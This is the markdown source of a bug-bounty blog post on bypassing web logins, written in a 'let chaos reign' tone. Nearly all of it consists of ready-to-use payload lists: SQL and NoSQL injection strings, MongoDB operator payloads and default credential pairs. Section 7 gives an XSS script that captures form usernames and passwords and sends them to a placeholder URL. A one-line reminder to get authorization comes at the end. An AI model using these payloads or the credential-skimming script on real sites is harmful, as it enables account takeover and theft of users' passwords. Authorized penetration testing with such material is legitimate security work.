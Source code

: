 ```yaml
---
title: <img width="50" height="50" alt="front-page port 80-shoopyu" src="https://i.ytimg.com/vi/9wNJE2zaEP8/maxresdefault.jpg"> Web Login Bypassing Techniques
date: 2023-05-29 00:00:02 +730
categories: [Resources, bugbounty]
tags: [bypass,bugbounty,web-login-bypass] # TAG names should always be lowercase
mermaid: true

---
```


# Web Login Bypassing Techniques for Bug Bounty Hunters: 😎🚀

> "To login or not to login, that is the question... but we have the answers!" 🕵️‍♂️🔓

Greetings, fellow bug bounty hunters! Are you ready to embark on a wild adventure of bypassing web login systems? Buckle up and prepare to witness some mind-boggling techniques that will make you go "Woah!" Let's dive into the chaos and unleash our hacking skills! 💥

```mermaid
flowchart LR
    A(Web Login Bypassing Techniques)
    B(SQL Injection)
    C(NoSQL Injection)
    D(Operator-Based Attacks)
    E(Default Credentials)
    F(Wildcard Brute Force)
    G(Registration as Existing User)

    A -->|Explore| B
    A -->|Unleash| C
    A -->|Manipulate| D
    A -->|Break Monotony| E
    A -->|Unleash Chaos| F
    A -->|Add Twist| G


```




## 1. SQL Injection: The Art of Database Mischief 🎭

Injecting SQL queries into login fields is our secret weapon! Here's a taste of the madness we can create:

```sql
- Microsoft, Oracle, PostgreSQL:
    - admin' or '1'='1
    - admin'--
    - admin' or 1=1--
    - admin' or '1'='1'--
    - admin}" or 1=1--

- MySQL:
    - admin'-- -
    - admin'#
    - admin' or 1=1#
    - admin' or 1=1-- -
    - admin' or '1'='1'-- -
    - admin' or '1'='1'#

- Let the chaos reign! 💥
```

[Get the whole cheet-sheet](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/login-bypass/sql-login-bypass.md)


## 2. NoSQL Injection: Unleashing Madness in NoSQL Realm 🐆

Who said NoSQL databases are immune to our hacking shenanigans? Brace yourselves for some NoSQL injection payloads:


```
- Mongo:

    - admin' || 1==1//
    - admin' || 1==1%00
    - admin' || '1==1
    - admin' || '1'=='1'
```


## 3. Operator-Based Attacks: Dancing with Operators 💃🎩

Operators hold the key to our login bypass extravaganza. Get ready to manipulate and conquer with these operator-based payloads:

```bash
- $ne (Not equal):
    - username[$ne]=xyz&password[$ne]=xyz

- $regex (Regular expressions):
    - username[$regex]=.*&password[$regex]=.*
    - username[$regex]=^xyz&password[$regex]=^xyz

- $exists (Exists in the database):
    - username[$exists]=true&password[$exists]=true

- $nin (Not include):
    - username[$nin][admin]=admin&password[$ne]=xyz

- $gt (Greater than) and $lt (Lower than):
    - username[$gt]=s&password[$gt]=s
    - username[$lt]=s&password[$lt]=s

- The operator symphony begins! 🎩🎶
```

## 4. Default Credentials: Breaking the "Admin:Admin" Monotony 🥱💤


![s](https://pbs.twimg.com/media/FA6ElwUXoAEZHYz.jpg){: .dark .w-75 .shadow .rounded-10 w='1212' h='668' }

Yawn! Default credentials are a bug bounty hunter's best friend. Let's shake things up with some unexpected username/password combos:

```bash
- admin:admin
- admin:password
- admin:password1
- admin:password123
- administrator:password
- administrator:password1
- administrator:password123

- Time to expose those default culprits! 😈🔑
```
[Default-passwords](https://datarecovery.com/rd/default-passwords/)


## 5. Wildcard Brute Force: Unleashing Chaos with Wildcard Magic! 🃏🔥

When wildcards (*) are allowed, the real fun begins! Brace yourselves for the epic wildcard brute force:

```bash
- username = *
- password

 = *

- Turbo Intruder in Burp Suite will be your trusty sidekick for this madness! 💪🦸‍♀️
```

## 6. Registration as Existing User: Adding a Twist to the Game 🎭🔑

Registering as an existing user? Let's spice it up with these variations:

- Register with the same username:
    - `admin`
    - `admin%00`
    - `(space)admin`

Go ahead and test these payloads using the registration form on the target website. Time to make the login system question its existence! 😜


>Some Additional tactics to bypaasssss!
{: .prompt-info }

## 7. CSRF via XSS and see the victims credentials. This is the CSRF payload for it 
```js
<script>
function intercept() {
 
 var user = document.forms[0].elements[0].value;
 var pass = document.forms[0].elements[1].value;
 
 
 var xhr = new XMLHttpRequest();
 
 xhr.open("GET", "https://your-target-url?username/email="+user+"&password="+pass)
 xhr.send();
return false;
 }
 document.forms[0].onsubmit = intercept;
 
</script>
```

## 8. By Manipulating the Response

This method mainly based on Response Status code manipulation and Response Body manipulation. 
- First of all make an account on your target 
- Login with correct credentials and intercepts request in burp suite and analyze the response 
- Try to login with wrong credentials and manipulate the response as you see it with your correct credentials like

```
403 Forbidden  
<redacted>  
{"error":true, "message":"Invalid Token"}
```
<br>

```
200 OK  
<redacted>  
{"success":true}
```
## 9. By Removing Parameter in Request

When you enter wrong credentials the site shows error like username and password is incorrect/does not match, password is incorrect for this username etc,

 - [ ] First you intercept the request and remove the `password parameter` in the request and `forward` the request. 
 - [ ] Then the server sees that the username is available and logs you in to the site. This problem occurs when the server does not analyze the request properly.

![1_gNdDHP3A232KT9R4BA1ERw](https://github.com/thelocalh0st/thelocalh0st.github.io/assets/125783410/7eb0b6bf-cfa5-4451-b294-d1a8acfb40a5)
![2](https://github.com/thelocalh0st/thelocalh0st.github.io/assets/125783410/38e32544-da62-4851-810d-9a50f826804e)

<br>
<br>



> **Important Note:** While these techniques can be used for legitimate security testing, always ensure that you have proper authorization and permission before attempting any login bypass or brute force attacks. Stay ethical, my friends! 🕵️‍♀️🔒
{: .prompt-tip }


![end](https://media.giphy.com/media/DAtJCG1t3im1G/giphy.gif)
